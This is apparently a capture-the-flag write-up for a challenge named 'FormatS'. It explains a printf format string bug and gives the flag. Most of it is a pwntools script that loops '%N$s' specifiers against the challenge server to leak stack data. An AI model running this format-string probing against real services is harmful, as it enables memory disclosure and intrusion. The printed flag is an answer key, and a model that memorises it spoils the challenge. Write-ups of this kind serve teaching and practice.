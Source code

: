 # FormatS

It runs printf on our input, format string. The flag pointer is loaded onto the stack, so we can just bruteforce string specifiers until we find the flag.

#### Flag: cyctf{3xpl0!t_th3_f0rm@t_str!ng}

```py
from pwn import *
for i in range(20):
    p = remote('cyberyoddha.baycyber.net', 10005)
    p.sendline(f'%{i}$s')
    try:
        print(p.recv())
    except EOFError:
        pass
```
